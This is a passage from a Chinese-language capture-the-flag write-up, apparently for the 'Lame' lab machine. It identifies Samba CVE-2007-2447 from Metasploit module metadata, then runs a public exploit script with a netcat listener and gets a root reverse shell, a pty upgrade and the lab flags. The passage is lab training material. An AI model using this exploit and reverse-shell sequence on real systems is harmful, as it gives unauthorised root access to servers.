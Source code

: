 ```shell
                         &#39;Author&#39;         =&gt; [ &#39;jduck&#39; ],
                         &#39;License&#39;        =&gt; MSF_LICENSE,
                         &#39;Version&#39;        =&gt; &#39;$Revision: 10040 $&#39;,
                         &#39;References&#39;     =&gt;
                                [ 
                                        [ &#39;CVE&#39;, &#39;2007-2447&#39; ],
                                        [ &#39;OSVDB&#39;, &#39;34700&#39; ],
                                        [ &#39;BID&#39;, &#39;23972&#39; ],
                                        [ &#39;URL&#39;, &#39;http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534&#39; ],
                                        [ &#39;URL&#39;, &#39;http://samba.org/samba/security/CVE-2007-2447.html&#39; ]
                                ],
                         &#39;Platform&#39;       =&gt; [&#39;unix&#39;],
 
```

看到CVE编号：2007-2447

### Github

Github找利用脚本

随便找了一个，https://github.com/amriunix/CVE-2007-2447，安装依赖`$ pip install pysmb`，按照说明运行：

```shell
 $ python3 usermap_script.py 
 [*] CVE-2007-2447 - Samba usermap script
 [-] usage: python usermap_script.py &lt;RHOST&gt; &lt;RPORT&gt; &lt;LHOST&gt; &lt;LPORT&gt;
 
 $ nc -l -v -p 4444 
 
 $ python3 usermap_script.py 10.10.10.3 139 10.10.14.2 4444
 [*] CVE-2007-2447 - Samba usermap script
 [&#43;] Connecting !
 [&#43;] Payload was sent - check netcat !
 
 $ nc -l -v -p 4444   
 listening on [any] 4444 ...
 10.10.10.3: inverse host lookup failed: Unknown host
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 36956
 whoami
 root
 whereis python
 python: /usr/bin/python2.5-config /usr/bin/python /usr/bin/python2.5 /etc/python /etc/python2.5 /usr/lib/python2.3 /usr/lib/python2.5 /usr/lib/python2.4 /usr/local/lib/python2.5 /usr/include/python2.5 /usr/share/python /usr/share/man/man1/python.1.gz
 python -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;
 root@lame:/# find / -name user.txt
 find / -name user.txt
 /home/makis/user.txt
 root@lame:/# cat /home/makis/user.txt
 cat /home/makis/user.txt
 83bb7c7fff163562d48ac4ba14316025
 root@lame:/# cat /root/root.txt
 cat /root/root.txt
 848a15387ca22dcf38b1cdc8538223a0
 root@lame:/#
```
